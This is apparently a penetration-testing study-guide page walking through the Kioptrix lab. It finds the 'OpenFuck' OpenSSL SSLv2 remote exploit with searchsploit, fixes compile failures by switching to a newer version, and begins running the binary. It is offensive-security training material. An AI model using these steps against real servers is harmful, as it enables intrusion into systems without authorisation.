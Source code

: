 ```bash

A buffer-overflow vulnerability has been reported in some versions of OpenSSL.
The issue occurs in the handling of the client key value during the negotiation of the SSLv2 protocol. A malicious client may be able to exploit this vulnerability to execute arbitrary code as the vulnerable server process or possibly to create a denial-of-service condition.

***UPDATE: A worm that likely exploits this vulnerability has been discovered propagating in the wild. Additionally, this code includes peer-to-peer and distributed denial-of-service capabilities. There have been numerous reports of intrusions in Europe. It is not yet confirmed whether this vulnerability is in OpenSSL, mod_ssl, or another component. Administrators are advised to upgrade to the most recent versions or to disable Apache, if possible, until more information is available.
*/
/*
 * VERY PRIV8 spabam SPAX@zone-h.org
 * Compile with: gcc -o OpenFuck OpenFuck.c -lcrypto
 *
 */
#include <arpa/inet.h>
#include <netinet/in.h>
#include <sys/types.h>
...
```
We can see from the output that we need to compile the code using [gcc](/computers/linux/gcc.md):
```bash
gcc -o openfuck 21671.c -lcrypto
21671.c:715:31: error: ‘SSL2_MAX_CONNECTION_ID_LENGTH’ undeclared here (not in a function); did you mean ‘SSL3_MAX_SSL_SESSION_ID_LENGTH’?
  715 |         unsigned char conn_id[SSL2_MAX_CONNECTION_ID_LENGTH];
      |                               ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
      |                               SSL3_MAX_SSL_SESSION_ID_LENGTH
21671.c:723:9: error: unknown type name ‘RC4_KEY’
  723 |         RC4_KEY* rc4_read_key;
```
Unfortunately, this code is old and will not easily compile. So we have to either fix all of the errors ourselves, or find someone who already has.
### Find a working version
When we used `searchsploit` to find all the exploit code r/t OpenFuck, there were three versions listed, one of which was `OpenFuckv2.c` w/ an ID of `47080`. We can cp it into our kioptrix dir like so:
```bash
cp /usr/share/exploitdb/exploits/unix/remote/47080 openfuck.c
```
Looking up this version on [exploit db](https://www.exploit-db.com/exploits/47080) we can see that it isn't verified like ID `21671` was. However, if we go to the [GitLab repo](https://gitlab.com/exploit-database/exploitdb/-/blob/main/exploits/unix/remote/47080.c?ref_type=heads) we can try to verify the code ourselves. 
![](nested-repos/PNPT-study-guide/PNPT-pics/gaining-root-1%201.png)
Then we can try compiling it with `gcc`:
```bash
gcc -o openfuck of.c -lcrypto
of.c: In function ‘read_ssl_packet’:
of.c:534:17: warning: ‘RC4’ is deprecated: Since OpenSSL 3.0 [-Wdeprecated-declarations]
  534 |                 RC4(ssl->rc4_read_key, rec_len, buf, buf);
...
```
This time gcc only lists warnings and no errors, and if we check our directory, we can see that our binary exists `openfuck`.
## Exploitation
To figure out how to use our binary against the target, we can run it w/o any flags and see if the output gives us usage hints:
```bash
./openfuck
```